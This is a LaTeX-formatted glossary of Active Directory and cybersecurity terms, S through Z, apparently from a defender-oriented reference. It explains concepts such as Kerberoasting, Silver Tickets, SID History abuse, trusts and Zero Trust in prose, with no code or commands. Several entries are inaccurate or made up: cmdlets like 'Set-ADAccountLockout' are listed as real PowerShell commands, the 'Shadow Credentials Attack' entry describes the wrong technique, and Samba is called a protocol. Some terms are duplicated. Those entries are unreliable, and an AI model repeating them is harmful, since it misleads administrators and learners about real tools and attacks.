\runinhead{Security Identifier (SID)} A SID is a unique value used to identify user, group, and computer accounts in Windows. They play an essential role in managing the permissions and controlling access to resources in an Active Directory environment. if an attacker is able to forge an SID, they might impersonate another user or gain unauthorized privileges. The SID value for all objects in a domain is identical. To create a unique value for security principals, the SID value is combined with a unique RID value that is controlled by the RID pool assigned to DCs by the FSMO role holder of the RID Master in the domain.

\runinhead{Security Indicator} Security indicators are values based on metrics obtained by comparing logically related attributes about the behavior of an activity, process, or control in a specified time. These critical indicators are derived from predefined criteria and may be predictive of the overall security posture of an organization. Security indicators include indicators of attack (IOAs), indicators of compromise (IOCs), and indicators of exposure (IOEs).
\textit{See also: Indicators of Attack (IOA); Indicators of Compromise (IOC); Indicators of Exposure (IOE)}

\runinhead{Security Information and Event Management (SIEM)} A technology that aggregates and analyzes log and event data generated by various sources in the IT infrastructure of an organization. Organizations use SIEM to gather, centralize and store logs from various sources, in real time.

\runinhead{Security Operations Center (SOC)} A SOC is a unit that operates as the cybersecurity hub of an organization, tasked with strengthening security measures and responding to threats in real time. Monitors various systems including identities, endpoints, servers, and databases, while also leveraging up-to-date threat intelligence to identify and rectify vulnerabilities before they can be exploited by cyber attackers.

\runinhead{Security Orchestration, Automation, and Response (SOAR)} A suite of solutions designed to streamline security operations by automating threat detection and response. SOAR integrates various security tools and systems, providing a unified platform to collect data and execute appropriate responses to threats. This allows security teams to manage and respond to a larger volume of threats more efficiently, improving the overall security posture of an organization.

\runinhead{Security Perimeter} With the advent of cloud services, mobile devices, and remote work, the security perimeters of organizations have changed from the servers on site that make up a network to a new frontier: identity. 

\runinhead{Security Principal} A unique entity, also called a principal, that can be authenticated by Active Directory. Typically a user object, a security group object, or a computer object. All security principals in Active Directory have a Security ID (SID).

\runinhead{Security Support Provider Interface (SSPI)} SSPI allows applications to use various security models available on a computer or network without changing the interface to the security system. Its misuse can lead to token manipulation attacks.

\runinhead{Security Token Service (STS)} STS is a software-based identity provider that issues security tokens as part of a claims-based identity system. It is commonly used in federation scenarios, playing a critical role in ensuring security. If compromised, it can lead to unauthorized access to multiple services.

\runinhead{Server Core} Server Core is a minimal server installation option for Windows Server that provides a low-maintenance server environment with limited functionality. It is mainly used for infrastructure roles, including an Active Directory Domain Services role. From a cybersecurity perspective, the smaller attack surface of the Server Core can reduce the potential risk of security vulnerabilities.

\runinhead{Server Message Block (SMB)} SMB is a protocol for sharing files, printers, serial ports, and communications abstractions such as named pipes and mail slots between computers. An example of a cybersecurity issue is the SMB Relay attack where an attacker sets up an SMB server and gets the target machine to authenticate to it, allowing for credential theft or execution of arbitrary code.

\runinhead{Service Account} A user account that is created explicitly to provide a security context for services running on Windows Servers. Mismanagement of service accounts can expose them to attackers, allowing lateral movement or escalation of privileges.

\runinhead{Service Connection Point (SCP) Object} The Service Connection Point (SCP) object in Active Directory is used to define the configuration information that clients or services need to find and connect to specific services or resources within the organization’s infrastructure. For example: Microsoft Exchange creates SCP objects to specify the endpoint of the Autodiscover service in Active Directory. This allows Outlook clients to automatically discover the Exchange settings and connect to the appropriate Exchange server.

\runinhead{Service Principal Name (SPN)} An SPN is a unique identifier tied to each instance of a Windows service. SPNs are used in conjunction with the Kerberos authentication protocol to associate a service instance with a service logon account. In a cyberattack known as Kerberoasting, an attacker may request Kerberos tickets for SPNs to crack their passwords offline.
\textit{See also: Kerberoasting; Service Principal Name (SPN) Scanning}

\runinhead{Service Principal Name (SPN) Scanning} A method often used in attacks to discover service accounts in an Active Directory environment. Attackers enumerate services running under domain accounts via exposed Service Principal Names (SPNs). These accounts often have elevated privileges and weaker passwords, making them prime targets for compromise.

\runinhead{Session Hijacking} An attack where an attacker takes over a user session. In the context of Active Directory, this could include taking over a Kerberos ticket-granting ticket session, for instance.

\runinhead{\texttt{Set-ADAccountExpiration}} This PowerShell cmdlet sets the expiration date for an AD account. If improperly used, it could lead to denial of service by setting an immediate expiration on valid user accounts.

\runinhead{\texttt{Set-ADAccountLockout}} This PowerShell command sets the account lockout protection for an AD user.

\runinhead{\texttt{Set-ADAccountPassword -LogonWorkstations}} This PowerShell command restricts logon to specific workstations for a user. If used maliciously, it can lead to unauthorized access or a possible denial of service.

\runinhead{\texttt{Set-ADComputer}} This PowerShell cmdlet is used to modify the properties of a computer object. If used maliciously, it can lead to unauthorized changes to computer properties, potentially leading to operational disruptions or breaches.

\runinhead{\texttt{Set-ADDefaultDomainPasswordPolicy}} This PowerShell cmdlet is used to modify the default password policy for an AD domain. If misused, it can weaken the organization’s password policy, making it easier for an attacker to guess or crack passwords.

\runinhead{\texttt{Set-ADUser}} This PowerShell cmdlet is used to modify the attributes of a user object in Active Directory. In the wrong hands, this command could be used maliciously to alter user account properties, such as the description field, for stealthy persistence or privilege escalation.

\runinhead{Shadow Copy} Shadow Copy is a technology in Windows systems that allows to take manual or automatic backup copies or snapshots of data, even if it is in use. It can be used to restore previous versions of files and directories.

\runinhead{Shadow Credentials Attack} When users share a username and password between multiple systems (including non-AD systems), an attacker can use weak or breached credentials from one system to gain unauthorized access to another.

\runinhead{Shadow Group} Shadow groups in Active Directory are used to mirror the membership of a given dynamic distribution group. This can be especially useful when permissions need to be assigned to a dynamic distribution group; however, if not properly managed, shadow groups can pose a security risk through inadvertent granting of permissions.

\runinhead{SID Filtering} A security mechanism in Active Directory that removes foreign SIDs from a user’s access token when accessing resources through Forest Trust. This feature, which is enabled by default between forests, helps protect against malicious users with administrative privileges in a trusted forest from gaining control over a trusted forest. When SID filtering is active, only SIDs from the trusted domain are used on a user's token, while SIDs from other trusted domains are excluded.

\runinhead{SID History} SID History is an attribute of a user object, which assists in the migration of resources from one domain to another. It stores former SIDs of a user account, allowing access to resources that recognize the old SID. This can be abused by attackers using a method called SID History Injection to escalate privileges.

\runinhead{SID History Attack} Security Identifier (SID) history attribute can be manipulated to increase the privileges of a user. An attacker can add the SID of a privileged group to the SID history attribute of their account, granting them the corresponding privileges.

\runinhead{Silver Ticket Attack} A Silver Ticket attack focuses on forging a session ticket (ST). This attack enables the attacker to impersonate a legitimate user and gain unauthorized access to resources within the domain. In this type of attack, an attacker gains unauthorized access to a service by forging a Kerberos ticket for that service. By obtaining the NTLM hash of the service account and other required information, the attacker can create a malicious ticket, granting them access to the service without having to authenticate or know the actual user’s password.

\runinhead{Simple Authentication and Security Layer (SASL)} A framework that provides a mechanism for authentication and optional security services in internet protocols. In the context of Active Directory (AD), SASL is used to ensure the integrity and security of data during transmission. When an AD client wants to authenticate with a server, it can use SASL to specify the method of authentication it prefers. SASL supports several authentication methods, such as Kerberos, NTLM, and Digest-MD5, and is often used in protocols such as LDAP. Some SASL mechanisms also provide security services beyond authentication, such as data integrity checks and encryption, to protect data during transmission.

\runinhead{Single Sign-On (SSO)} SSO is an authentication process that allows a user to access multiple resources with a set of login credentials. SSO can be used to provide users with seamless access to network resources, improving the user experience by reducing the number of passwords they need to remember. SSO can increase business efficiency, but also presents a potential security issue if the single authentication point is compromised.

\runinhead{Site} A collection of one or more well-connected (reliable and fast) TCP/IP subnets represented as objects in the AD database. Sites help administrators optimize both Active Directory logon traffic and Active Directory replication with respect to the physical network and WAN connection speeds. When users log in, domain member machines find domain controllers (DCs) that are on the same site as the user, or near the same site if there is no DC in the site. When DCs replicate, they will perform an almost immediate replication between all DCs in a site and postpone the replication traffic to other sites based on the replication window and interval. Misconfiguring sites and services can lead to replication inefficiencies and can impact the availability of AD services.

\runinhead{Site Link} Site links in Active Directory represent reliable IP paths between sites. They are used by the Knowledge Consistency Checker (KCC) to build the replication topology.

\runinhead{Site Object} An object of the class site, representing a site.

\runinhead{Skeleton Key Attack} In a skeleton key attack, an adversary deploys a malicious piece of software on a domain controller. This malware enables the attacker to log into any account within the domain using a password known only to the attacker, without disrupting normal operations or changing actual passwords.

\runinhead{Smart Card Authentication} This is a strong form of two-factor authentication that is used to log into an AD domain. A smart card contains a certificate associated with a user account, providing a robust defense against credential theft.

\runinhead{\texttt{SMBExec}} A rapid psexec style attack with the added benefit of pass-the-hash capability. It runs commands on remote computers using the SMB protocol.

\runinhead{Smbmap} A tool that allows users to enumerate samba share drives across an entire domain. Attackers can use it to find out about file, directory, and share-level permissions.

\runinhead{Snapshot} This refers to a 'photo' or a stored state of the Active Directory database at a given time, which can be used for backup purposes. Unauthorized access to snapshots can reveal sensitive data, and outdated snapshots can contain vulnerabilities that have been patched in the live environment.

\runinhead{Software Restriction Policies (SRP)} SRPs identify software programs running on computers in a domain and control the ability of the programs to run. This is an effective method to prevent the execution of malicious software or software that is not trusted. SRP can be employed to establish a highly secure configuration for systems by permitting the execution of only pre-approved applications. Integrated with Microsoft Active Directory and Group Policy, SRPs can be created in both network environments and on independent computers.

\runinhead{SolarWinds Attack} In early 2020, cybercriminals secretly broke into the systems of Texas-based SolarWinds and added malicious code to the company's software system. The system, called “Orion”, is widely used by companies to manage IT resources. SolarWinds had 33,000 customers using Orion, according to SEC documents; however, around March 2020, up to 18,000 SolarWinds customers installed updates that left them vulnerable to cyberattackers. Among the others were several high-profile SolarWinds clients, including Fortune 500 companies and multiple agencies in the US government, including parts of the Pentagon, the Department of Homeland Security, and the Treasury.

\runinhead{Special Identity} Special identities (also called implicit identities) are predefined groups that serve unique, often dynamic roles within the infrastructure. Unlike typical groups, these identities do not have a static list of members. Instead, they represent different users under different circumstances. Some examples of these special identities include Anonymous Login, Batch, and Authenticated User.

\runinhead{SPN-Jacking (SPN Hijacking)} In an SPN-jacking attack, cyberattackers manipulate the SPN of computer/service accounts to redirect pre-configured Constrained Delegation to unintended targets, even without obtaining \texttt{SeEnableDelegation} privileges.

\runinhead{Spoofing} In the context of Active Directory, spoofing generally refers to a situation where a malicious entity impersonates another device or user on the network. For example, DNS spoofing might be used to divert traffic to a malicious server.

\runinhead{SRV Record} In DNS, a type of information record stored in the zone database on DNS, which maps the name of a particular service to the DNS name of a server that offers that service. Active Directory uses SRV records heavily to allow clients and other DCs to locate services such as Global Catalog, LDAP, and Kerberos, and DCs automatically advertise their capabilities by publishing SRV records in DNS.

\runinhead{SSL/TLS Handshake} The process of negotiating and establishing a connection protected by the Secure Sockets Layer (SSL) or Transport Layer Security (TLS).

\runinhead{Supply Chain Attacks} Also known as third-party attacks or value chain attacks, they occur when an attacker infiltrates your system through an outside partner or provider with access to your systems and data. Essentially, instead of attacking the primary target directly, the threat actor targets less secure elements in the network supply chain. Notorious examples include the SolarWinds attack, where malicious code was inserted into software updates, affecting thousands of customers worldwide.

\runinhead{Symmetric Encryption} A cryptographic method in which the same key is used for both encryption and decryption. It is efficient and fast, but requires a secure key distribution between parties. Common algorithms: AES, DES, blowfish.

\runinhead{Synchronization} In the context of Active Directory, synchronization is the process of ensuring that multiple copies of a data object, such as a user account or group, are the same across all domain controllers. If synchronization fails, it can lead to inconsistencies that might be exploited by an attacker.

\runinhead{System Access Control List (SACL)} An access control list (ACL) that controls the generation of audit messages for attempts to access a securable object in AD. The resulting audit messages can be seen in the security log in the Windows Event Viewer. Ignoring SACLs can leave a system vulnerable by failing to record and alert about suspicious activities.

\runinhead{\texttt{SYSVOL}} The \texttt{SYSVOL} share is a very important folder that is shared on each domain controller in the AD domain. The default location is \\\texttt{\%SYSTEMROOT\%SYSVOL} and it typically contains Group Policy Objects, Folders, Scripts, Junction Points and more. Each Domain Controller gets a replica of the \texttt{SYSVOL} share. If not properly secured, attackers may gain access to this share and whatever is placed there is replicated by default throughout the AD forest. Unauthorized modifications in \texttt{SYSVOL} can also lead to GPO-related security issues.

\runinhead{Schema Master} The Schema Master is a flexible single master operation role responsible for managing updates to the Active Directory schema. This schema acts as a blueprint, defining the types of objects (like users, computers, groups) and their attributes (like name, email, password) that exist within an Active Directory forest. Essentially, it is the "master copy" of the schema, and only one Schema Master exists per forest.

\runinhead{Server Message Block (SMB)} SMB is a network file sharing protocol that allows computers to access files and other resources on a network as if they were local. It is commonly used in Windows environments for file and printer sharing and is also implemented in Linux and Unix systems via the Samba protocol.

\runinhead{Shell} A shell refers to a program that provides a user interface for interacting with an operating system's services. It allows users to execute commands and manage system resources via a command-line interface or terminal. \textit{"Web shells"} are malicious scripts that give attackers remote access to a web server, often used to compromise other systems remotely.

\runinhead{Silver Ticket} Similar to the case of a golden ticket attack, a silver ticket attack focuses on specific services and portions of the AD network within the domain rather than the entire domain.

\runinhead{Structured Query Language (SQL)} Pronounced as \textit{"SEQUEL,"} Microsoft SQL Server (MSSQL) is a \textit{Relational Database Management System (RDBMS)} developed by Microsoft. It is a software product that acts as a server, storing and retrieving data as requested by other software applications. It uses the Structured Query Language to manage and query the data stored in its databases.

\section*{T}
\runinhead{Tactics, Techniques, and Procedures (TTPs)} TTPs describe the behavior and methodology of threat actors. \textit{\textbf{Tactics}} refer to the general objective (e.g., privilege escalation). \textbf{\textit{Techniques}} describe how that objective is achieved (e.g. Pass-the-Hash (PtH). \textbf{\textit{Procedures}} are specific implementations or variations used by an attacker. TTPs are used for threat intelligence, modeling adversary behavior, and aligning with frameworks like the MITRE ATT\&CK framework.

\runinhead{TCPView}  Sysinternals graphic network monitoring utility that shows a representation of all currently active TCP and UDP endpoints on a system.

\runinhead{Terminal Access Controller Access-Control System (TACACS)} TACACS is a remote authentication protocol commonly used in UNIX networks. TACACS allows a remote access server to forward a user's log-in password to an authentication server to determine whether access can be allowed to a given system. Although not directly part of Active Directory, it is often used in conjunction with AD in mixed environments.

\runinhead{Terminal Services} Terminal Services, now known as Remote Desktop Services, allow users to access Windows-based programs or the full Windows desktop remotely. Although it provides convenience and flexibility, it can also pose a security risk if not properly secured, as attackers could exploit it for unauthorized remote access.
\textit{See also: Remote Desktop Services (RDS); Remote Desktop Protocol (RDP)}

\runinhead{Test-ComputerSecureChannel} This PowerShell command checks the secure channel between the local computer and its domain. If it shows an insecure connection, it could indicate possible MiTM attacks or other network compromises.

\runinhead{Threat Hunting} Threat hunting is a proactive cybersecurity process of searching through networks to detect and isolate advanced threats that evade existing security solutions. It is crucial in Active Directory environments to identify potential intrusions or malicious activities that have bypassed traditional security measures. A well-known example of a threat hunting case in AD would be to look for signs of 'Golden Ticket' attacks, where attackers forge a TGT.

\runinhead{Threat Landscape} An umbrella term to describe the types of vulnerabilities, attacks, and threat actors that exist at any given time, within a certain context. Computer and information technologies are advancing at lightning speed; however, cyberattackers are keeping pace by constantly evolving their methods of exploiting system vulnerabilities. The volatility in today’s cyber threat landscape makes it critical to use a layered security approach and solutions designed specifically to protect and quickly recover Active Directory.

\runinhead{Ticket Granting Service (TGS)} TGS is a critical component of the Kerberos authentication protocol used in Active Directory. After initial authentication, the Key Distribution Center (KDC) issues a ticket grant (TGT). The TGS uses this TGT to issue service tickets for access to other resources within the domain. If an attacker gains access to a valid TGT, they can request tickets to any network service, leading to potential unauthorized access.
\textit{See also: Ticket Granting Ticket (TGT)}

\runinhead{Ticket Options} In the Kerberos authentication protocol, Ticket Options is a field in the ticket that specifies flags such as whether the ticket is renewable or if it is valid for proxy use. Misconfiguration of these options or exploitation by an attacker can lead to security issues, such as unauthorized ticket renewal.

\runinhead{Ticket Granting Ticket (TGT)} A Ticket Granting Ticket (TGT) is a security token issued by the Key Distribution Center (KDC) as part of the Kerberos authentication protocol in Active Directory. The TGT is created after a user successfully authenticates and acts as a "passport" for accessing network resources. It allows users to request service tickets from the Ticket Granting Service (TGS) without having to re-enter credentials. A TGT contains information such as the session key, expiration date, and client IP address. TGT is meant to streamline secure authentication across the network; however, it is also a high value target for attackers, since possession of a valid TGT enables impersonation attacks and unauthorized access to restricted resources.

\runinhead{Tier 0} Tier 0 assets are those that are critical to the operation of your IT environment. Such assets include Active Directory and AD domain controllers, which, in turn, control access and privileges to every user, system, and resource in the organization.

\runinhead{Tiered Administrative Model} This security model for administrative access segregates privileges into separate tiers to prevent credential theft and unauthorized access. For instance, admins with access to the domain controller (Tier 0) should not use the same accounts or machines to manage less trusted assets like user workstations (Tier 2). This model is essential in minimizing the risk of privilege escalation or lateral movement attacks.

\runinhead{Time Synchronization} Active Directory uses the Kerberos protocol for authentication that relies on time sensitive tickets. It is crucial to maintain accurate and synchronized time across all systems in an AD environment to prevent authentication issues. Incorrect time settings can even lead to Kerberos-based attacks, such as replay attacks.

\runinhead{Time-To-Live (TTL)} TTL is not unique to Active Directory, but it plays a critical role in DNS, which is a significant component of AD. In the context of AD-integrated DNS, TTL is a value in a DNS record that signifies the duration for which the record is valid before it needs to be refreshed. An excessively long TTL might lead to the use of outdated DNS information, which could disrupt AD services.

\runinhead{Token} A token in Active Directory is a representation of user rights and permissions. Every time a user logs in, a token is generated that identifies the user and the groups to which the user belongs. Tokens can be targeted by cybercriminals to perform token impersonation attacks, stealing the token to gain unauthorized access.

\runinhead{Token Bloat} Token bloat is a condition in which a user accumulates so many security identifiers (SIDs) in their access token due to membership in many groups that they experience logon or resource access issues. From a cybersecurity point of view, token bloat can impact user productivity and serve as a sign of excessive permissions that could be exploited by an attacker if the user’s account were to be compromised.

\runinhead{Tombstone} When an object is deleted from Active Directory, it is moved to the Deleted Objects container. The object retains most of its attributes. Objects remain in this container for the tombstone period (by default 180 days), after which they are permanently deleted. If the tombstone period has not yet passed, the deleted objects can be reanimated. Restoring incorrectly tombstoned objects might lead to inconsistencies and possibly orphaned objects.

\runinhead{Tombstone Lifetime (TSL)} The number of days before a deleted object is removed from the directory services. The default value was used to be 60 days when no value is entered. In modern operating systems, the value is 180 days.

\runinhead{Transitive Trust} A two-way relationship that is automatically created between parent and child domains in a Microsoft Active Directory forest and that can allow users from one domain in the forest to log into resources on any other domain in that forest. This means that if Domain A trusts Domain B and Domain B trusts Domain C, then Domain A automatically trusts Domain C. Attackers can exploit this transitivity to gain unauthorized access to resources.

\runinhead{Transmission Control Protocol (TCP / Internet Protocol (IP) Stack} The TCP/IP Stack (or suite), and also known as the Internet protocol suite, is a set of communication protocols that governs how data is transmitted across networks, including the internet. It is a foundational model that enables devices to communicate withe each other by organizing protocols into distinct layers, each with specific functions. The Internet protocol suite represents network protocols in practical internet and network communications:
1. Link
2. Internet
3. Transport
4. Application
Used in all modern networking, including web traffic, email, and file transfers.

\runinhead{Transmission Control Protocol/Internet Protocol (TCP/IP)} TCP/IP is the suite of communication protocols used to interconnect network devices on the Internet or on a private network. In the context of Active Directory, it is critical, as it forms the backbone of network communications. Ensuring that proper security measures such as IPsec are implemented is important to protect network traffic against sniffing or spoofing attacks.

\runinhead{Transport Layer Security (TLS)} TLS is a protocol that ensures privacy between communicating applications and users on the Internet. When a server and client communicate, TLS ensures that no third party can eavesdrop or manipulate any message. If not implemented correctly, attackers may exploit vulnerabilities in the protocol or use downgraded attacks to weaken the security of the connection.

\runinhead{Tree} A tree is a collection of Active Directory domains in hierarchical order with a contiguous namespace.

\runinhead{Tree Root Trust} A tree root trust is an automatic transitive trust relationship established between the root domains of two trees in the same Active Directory forest. This trust allows all domains in one tree to trust all domains in the other tree; however, similar to transitive trusts, tree root trusts could be potentially exploited by attackers for lateral movement within the forest.

\runinhead{TrickBot} TrickBot is a Trojan type malware that was first identified in 2016. Its original purpose was to target banks and steal financial data, but TrickBot has evolved into a multi-stage modular malware. The most common initial infection vector is malspam that contains malicious, macro-laden office documents such as invoices, holiday greeting cards, traffic violations, and more.

\runinhead{Trust} A trust is a relationship between domains that allows objects in one domain to have access to resources in another. It is established between two domain trees or forests to enable users in one domain to access resources in the other. For example, a user from one domain can log in and access resources from another domain.

\runinhead{Trust Attributes} These define the type of access that is given to a trusted domain. Trust attributes include settings such as selective authentication, which restricts access to only certain resources in a domain. Misconfigurations in trust attributes can lead to unauthorized access to resources.

\runinhead{Trust Boundary} In Active Directory, a trust boundary is a logical boundary that separates different security domains or realms. It represents the extent to which trust relationships can be established between entities within and outside the boundary. Establishing a trust relationship across this boundary allows security principals (such as users or computers) from one domain to access resources in another domain.

\runinhead{Two-Factor Authentication (2FA)} 2FA adds an extra layer of security to the authentication process by requiring users to verify their identity using two different factors: something they know (like a password) and something they possess (like a token or mobile device). It makes it harder for attackers to gain access even if they manage to compromise one factor.


\runinhead{Trust Forgery} Trust forgery refers to a sophisticated hacking technique in which an attacker exploits weaknesses in trust relationships between domains or forests to gain unauthorized access and elevate privileges. This method leverages forged Kerberos tickets, particularly "Trust Tickets," to impersonate users and gain access to resources across those trusts.

\section*{U}
\runinhead{Universal Groups} Universal groups in Active Directory are groups that can include users, groups, and computers from any domain within its AD forest. This attribute makes them ideal for large-scale access management across multiple domains, but misconfigurations or excessive use can increase replication traffic within the forest, potentially affecting performance.

\runinhead{\texttt{Unlock-ADAccount}} This PowerShell command unlocks an AD account that has been locked out. Misuse could lead an attacker to unlock accounts that were locked due to suspicious activities.

\runinhead{Update Sequence Number (USN)} A USN is a 64-bit number in Active Directory that increases as changes occur to objects or attributes. Used to control the replication of these changes throughout the entire AD forest.

\runinhead{User Account Control (UAC)} While not strictly an AD term, UAC is a Windows security feature that can interact with AD. Controls the privileges of a user account and requests confirmation whenever a change requires administrative rights. If UAC settings are not appropriately configured, it may allow unauthorized changes or malware propagation.

\runinhead{User Identifier (UID)} In Active Directory Services Interface (ADSI), each object has a unique identifier known as a UID. It is often used when interacting with AD via scripts or programming languages, serving as a distinct pointer to an object in the directory.

\runinhead{User Object} In Active Directory, a user object is a distinct set of attributes that represent a network user. It includes information such as username, password, and various other details about the user. The security of user objects is paramount to ensure data privacy and prevent unauthorized access.

\runinhead{User Principal Name (UPN)} An Internet-style login name for a user object based on the Internet standard RFC 822. The UPN is shorter than the distinguished name and easier to remember, and simplifies the login process, especially in environments with trust relationships. By convention, this should map to the user email address, which makes it easier to remember.

\section*{V}
\runinhead{Virtual Directory} A virtual directory is a directory name, also known as a path, which is used to reference the physical directory (or directories) where files are actually stored. This concept is important in AD because it allows resources to be located and managed effectively without directly handling the underlying complexities of their physical locations.

\runinhead{Virtual Local Area Network (VLAN)} A VLAN is a logical division in a network, which group a set of devices that can communicate as if they were on the same physical network, even if they are not. From an AD perspective, VLANs can influence the design and performance of AD replication, as well as the application of policies.

\runinhead{Virtual Private Network (VPN)} A VPN is a secure network connection that uses encryption and other security mechanisms to ensure that only authorized users can access the network and that the data cannot be intercepted. This has implications for Active Directory because it allows remote and secure access to the organization's network where AD resources reside.

\runinhead{Virtualization} The process of creating a virtual version of something, including but not limited to a hardware platform, operating system, a storage device, or network resources. In AD contexts, domain controllers might be virtualized to save on hardware costs or for disaster recovery purposes; however, virtualization of AD components needs to be managed carefully, as incorrect configurations (such as having a virtual domain controller keep its own time) can lead to significant issues.

\runinhead{Virus} A virus is a malicious program that replicates itself to spread to other computers. It can potentially impact Active Directory if it infects systems that interact with AD or if it specifically targets AD components. Virus protection and timely intervention are crucial to maintaining the integrity and availability of the AD environment.

\runinhead{Visual Basic Scripting Edition (VBScript)} VBScript is a lightweight scripting language, developed by Microsoft, that is often used for server-side scripting in Active Directory environments. Despite its age, many AD admins have legacy VBScripts in their environment or may use VBScript for quick, simple tasks.

\runinhead{Volume Shadow Copy Service (VSS)} This is a Windows service that enables manual or automatic backup of computer files and volumes. It is essentially Windows's native backup tool, capable of creating 'shadow' copies at specified intervals or when triggered by a system event. VSS can be used to backup an Active Directory database while it is still running and plays an essential role in system restore and data recovery operations.

\runinhead{Vulnerability Scanning} This security technique is used to identify security weaknesses in a computer system. In the context of Active Directory, vulnerability scanning can uncover issues such as unpatched software, security misconfigurations, or the use of weak passwords. Regular vulnerability scanning is a critical part of maintaining the security of an Active Directory environment.

\section*{W}
\runinhead{WannaCry} The WannaCry ransomware worm exploited the EternalBlue vulnerability and targeted Windows-based computers in 2017. Microsoft released a security patch for EternalBlue shortly before the attacks began, but many Windows users did not immediately update their systems or were using out-of-date versions of Windows. As a result, WannaCry infected more than 200,000 computers in 150 countries and caused \$8~billion in damages.

\runinhead{Wbadmin} A command prompt utility that allows administrators or backup operators to backup and restore an operating system (OS), volume, file, folder, or application. Wbadmin replaced NT backup, the tool used to create backups in systems before Windows Server 2008.

\runinhead{Wildcard Certificate} In the realm of SSL/TLS, a wildcard certificate is a certificate that can secure any subdomain of a domain. For example, a single wildcard certificate for \texttt{*.hackherway.com can secure www.hackherway.com, mail.hackherway.com.} In AD, a wildcard certificate can be used to secure multiple services without the need for multiple certificates.

\runinhead{Windows Azure Active Directory (WAAD)} Also known as Azure Active Directory (AAD). This is the Active Directory Domain Services in the Windows Azure cloud.

\runinhead{Windows Defender} Windows Defender is the built-in real-time security system on Windows that offers protection against a wide range of threats such as malware, spyware, and viruses. It plays a critical role in the security of devices that are part of the Active Directory.

\runinhead{Windows Event Log} A Windows application that allows administrators to view detailed records of the operating system, security, and application notifications. Used by administrators to diagnose system problems and predict future issues.

\runinhead{Windows Internet Naming Service (WINS)} A Windows-based service that resolves NetBIOS computer names into IP addresses. WINS was designed to solve the problems that arise from NetBIOS name resolution in routed environments.

\runinhead{Windows Management Instrumentation (WMI)} An infrastructure built into Microsoft Windows operating systems that allows management data and operational parameters to be retrieved and configured on any device that “connects” to the system. Provides a unified way for software to request system information and manage system components locally or remotely. WMI can be used for tasks such as querying system settings, setting system properties, or triggering specific actions on systems.

\runinhead{Windows PowerShell} Windows PowerShell is a command-line shell and scripting language based on tasks designed especially for system administration. Built on the.NET Framework, PowerShell helps IT professionals control and automate the administration of the Windows operating system and applications that run on Windows. For example, administrators can use PowerShell to automate the process of creating users in Active Directory.

\runinhead{Windows Script Host (WSH)} A language-independent scripting host for Windows Script compatible scripting engines. It provides a set of objects and services that enable system-level scripting, allowing scripts written in JScript or VBScript, for instance, to automate administrative tasks or interact with the Windows operating system directly. WSH scripts can be executed directly from the desktop or command prompt, or they can be embedded into a webpage, providing a versatile platform for automating routine tasks.

\runinhead{Windows Server} Windows Server is a group of operating systems designed to support enterprise-level management, data storage, applications, and communications. Active Directory is one of the critical services that run on Windows Server, providing a variety of directory services.

\runinhead{Windows Server Update Services (WSUS)} 
\textit{Pronounced:} \textbf{/ˈwʌs.əs/} or \textbf{“WUH-sus”} (alternatively: “double-u-SUS”)
Windows Server Update Services (WSUS) is a Microsoft tool used to centrally manage and deploy operating system updates and patches within a Windows domain. In Active Directory environments, WSUS works alongside Group Policy to control how updates are deployed and distributed by domain-joined machines (e.g., patch windows might be different for select groups of machines). The main benefit of WSUS is to streamline patch and update management, reduce external bandwidth usage, and maintain security by ensuring that systems are consistently patched against known vulnerabilities.

\runinhead{Windows Time Service \texttt{W32Time}} The Windows Time Service (\texttt{W32Time}) is a core Windows component that synchronizes the system clock across devices in a networked environment. In Active Directory, accurate time synchronization is critical, particularly for Kerberos authentication, which depends on time-stamped tickets to validate user and service logins. The Network Time Protocol (NTP) is used in conjunction to maintain secure and consistent timekeeping across all domain controllers and domain-joined devices. Time drift beyond an acceptable threshold can cause authentication failures, replication issues, and security vulnerabilities, making the W32Time configuration and monitoring essential for AD integrity and performance.

\runinhead{WinNT} The Windows NT namespace provider that supports the Windows NT SAM account database.

\runinhead{Wireshark} Widely used in network troubleshooting and protocol analysis, Wireshark is a legitimate network capture tool that attackers can use to capture and analyze network traffic, potentially uncovering sensitive data transmitted in plaintext.

\runinhead{WMI Query Language (WQL)} A SQL-like language used to filter and query information from the Windows Management Instrumentation (WMI) framework. It is utilized to write queries that return specific information from the vast amount of data that WMI can deliver, such as querying for events or data objects, calling methods, or accessing or modifying system properties. WQL offers a robust toolkit for administrators to automate tasks, troubleshoot, or gather system information in a Windows environment.

\runinhead{Workstation} In the context of Active Directory, a workstation typically refers to a computer that is connected to the network and under the control of AD. Policies can be applied to workstations, users can log into them using their AD credentials, and they can access resources based on their AD user rights and permissions.

\runinhead{Writeable Domain Controller (WDC)} A writeable domain controller is a server that hosts a writable copy of the AD database. This is in contrast to a Read-Only Domain Controller (RODC). WDCs allow changes to the database that are then replicated to other DCs. Any compromise of a WDC can have a significant impact due to its ability to alter directory data.

\section*{X}
\runinhead{X.25} X.25 is an open source packet-switched wide area network (WAN) protocol that was widely used in the 1970s-1990s to connect remote systems before the rise of modern TCP/IP networking. Although not widely deployed today, some legacy systems and critical infrastructure may still rely on X.25-based communications. The thought process behind including X.25 in a cybersecurity context is to highlight that outdated protocols can pose security risks if left unmonitored or unprotected. In relation to Active Directory, if AD-integrated services or remote authentication rely on legacy X.25-linked infrastructure, attackers could potentially exploit weak encryption and poor access controls, making modernization or network segmentation essential.

\runinhead{X.500} X.500 is a set of standards developed by the International Telecommunications Union (ITU) for directory services that define how directory information should be structured and accessed in a distributed environment. It introduced concepts such as the hierarchical directory structure and Distinguished Names (DNs) that later influenced the Lightweight Directory Access Protocol (LDAP). X.500 provides a universal framework for identifying, storing, and retrieving information about users and resources across networks. Active Directory is heavily based on the X.500 principles-its schema, object hierarchy, and use of Distinguished Names all stem from this standard-making X.500 a foundational concept for understanding how AD organizes and manages identity data.

\section*{Y}
\runinhead{YubiKey} A YubiKey is a physical security token that supports multifactor authentication (MFA). Connects via USB, NFC, or Bluetooth and can be used to generate One-Time Passwords (OTP), support public key cryptography, and enable FIDO2/WebAuthn authentication. The thought process behind using a YubiKey is to strengthen user authentication by requiring a physical device, making it significantly harder for attackers to compromise accounts even if they obtain the user's password.

\section*{Z}
\runinhead{Zero-Day (0day)} A zero-day refers to a previously unknown software vulnerability for which no patch or fix has been developed or released by the software vendor. This means that when a zero-day vulnerability is discovered, the software vendor has had zero days to address the issue, hence the name.

\runinhead{Zero Trust} Zero Trust is a cybersecurity model that operates on the principle that no user, device, or system should be inherently trusted, regardless of whether they are inside or outside the network perimeter. The thought process behind Zero Trust is to eliminate implicit trust by continuously verifying identity, enforcing least-privilege access, and applying strict access controls across all resources. All access requests must be authenticated, authorized, and encrypted. Identity security plays a central role in Zero Trust, as it ensures that only verified users and devices can access critical applications and data.

